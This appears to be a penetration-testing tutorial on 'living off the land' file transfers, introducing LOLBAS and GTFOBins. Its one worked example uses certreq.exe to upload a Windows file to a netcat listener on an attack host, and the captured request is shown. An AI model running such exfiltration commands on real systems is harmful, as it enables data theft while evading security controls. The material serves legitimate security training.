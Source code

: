 # Living off The Land File Transfers

## Introduction

The phrase "Living off the land" was coined by Christopher Campbell (@obscuresec) & Matt Graeber (@mattifestation) at DerbyCon 3.

The term LOLBins (Living off the Land binaries) came from a Twitter discussion on what to call binaries that an attacker can use to perform actions beyond their original purpose. These are legitimate system binaries that can be abused for malicious purposes.

**Key Resources:**
- **LOLBAS Project** - For Windows Binaries (https://lolbas-project.github.io/)
- **GTFOBins** - For Linux Binaries (https://gtfobins.github.io/)

Living off the Land binaries can be used to perform functions such as:
- **Download** - Retrieve files from remote sources
- **Upload** - Send files to remote destinations
- **Command Execution** - Execute arbitrary commands
- **File Read** - Read sensitive files
- **File Write** - Write files to disk
- **Bypasses** - Bypass security controls

This section focuses on using LOLBAS and GTFOBins projects and provides examples for download and upload functions on Windows & Linux systems.

## Windows Living off The Land Binaries (LOLBAS)

### CertReq.exe

**Description:** Certificate Request utility that can be used to upload files via HTTP POST.

**Upload Files:**
```cmd
# Start Netcat listener on attack host
nc -lvnp 8000

# Upload file from Windows target
certreq.exe -Post -config http://192.168.49.128:8000/ c:\windows\win.ini
```

**Expected Output:**
```
Certificate Request Processor: The operation timed out 0x80072ee2 (WinHttp: 12002 ERROR_WINHTTP_TIMEOUT)
```

**Netcat Session Output:**
```http
POST / HTTP/1.1
Cache-Control: no-cache
Connection: Keep-Alive
Pragma: no-cache
Content-Type: application/json
User-Agent: Mozilla/4.0 (compatible; Win32; NDES client 10.0.19041.1466/vb_release_svc_prod1)
Content-Length: 92
Host: 192.168.49.128:8000

; for 16-bit app support
[fonts]
[extensions]
[mci extensions]
[files]
[Mail]
MAPI=1
```